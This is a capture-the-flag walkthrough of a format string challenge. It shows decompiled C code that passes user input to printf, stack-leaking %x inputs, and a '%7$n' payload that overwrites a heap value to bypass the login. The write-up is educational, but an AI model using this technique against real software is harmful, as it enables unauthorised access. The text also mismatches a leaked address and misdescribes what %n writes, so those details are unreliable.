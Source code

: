 # Log Me In!

Only the executable file was given. This was tagged as a "format string" challenge.

We run the program first.

```
user = 0x4202a0
Enter your username:
cookie
Enter password for user: cookie
cookie
Invalid login information.
```
The decompiled code from Ghidra is as follows; I have done some minor changes to improve the readability.

```
int main(void) { 
  char* __ptr = calloc(1, 40);
  printf("user = %p\n", __ptr);
  printf("Enter your username:");
  fgets((__ptr + 4), 20, stdin);
  printf("Enter password for user: ");
  printf((__ptr + 4));
  fgets((__ptr + 24), 20, stdin);
  if (*__ptr == 0) {
    printf("Invalid login information.");
  }
  else {
    printf("Successfully logged in!");
    giveFlag();
  }
  free(__ptr);
  return 0;
}
```

The code, though appearing to be very simple, did take me a while to fully understand.

Firstly, ```__ptr``` is a pointer to a buffer allocated on the heap, and ```calloc()``` will set the entire buffer to zeroes. Its address is shown, which is important later on.

A prompt for the username is then called, and ```fgets()``` writes the username to an offset 4 bytes off the memory address up to a total of 20 bytes, and the password fills up the remaining buffer.

This means that the first 4 bytes of the buffer are empty (from ```calloc()```), and logging in is not possible unless the first 4 bytes are written to.

### The exploit 
A good explanation of the string formatting vulnerability can be found [here](https://www.youtube.com/watch?v=2HxyGWD1htg). Simply put, format specifiers in ```printf()``` can be used to read values on the stack, and write to values elsewhere.

I played around with the ```%x``` format specifier, which prints out the values on the stack, to get things started with. After some experimentation, a few values on the stack were printed out. 

```
$ python2 -c 'print "%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x"' | ./logmein
user = 0x11882a0
Enter your username:
Enter password for user: 40202f-0-0-11882a4-19-be9a79d0-Invalid login information.
```
The value ```0x12fe2a4``` was found on the stack, which meant that memory address of the username (4 bytes off ```user```) was present, but not the actual address of ```user```. The input, capped to a total of 20 characters, was too long to show the other variables on the stack. 

Removing the hyphens (though this makes things less clear), other values further up the stack can be shown:
```
$ python2 -c 'print "%x%x%x%x%x%x%x%x%x"' | ./logmein
user = 0x23272a0
Enter your username:
Enter password for user: 40202f0023272a419158a692023272a00a0287083
Invalid login information.
```

The address of ```user``` can be found at the seventh 4-byte value on the stack. We confirm this by using ```%7$x``` as an input:
```
$ python2 -c 'print "%7$x"' | ./logmein
user = 0xdb32a0
Enter your username:
Enter password for user: db32a0
Invalid login information.
```

Now, the only thing left is to write to this memory address for the flag to be shown. This can be done by using the ```%n``` specifier. The (hexadecimal) value to the left of the specifier is written to the address specified.

**Solution**
```
$ python2 -c 'print "123%7$n"' | ./logmein
user = 0x15d3010
Enter your username:
Enter password for user: 123
adsf
Successfully logged in!
```

**Flag**
```
flag{why_does_printf_even_have_%n}
```
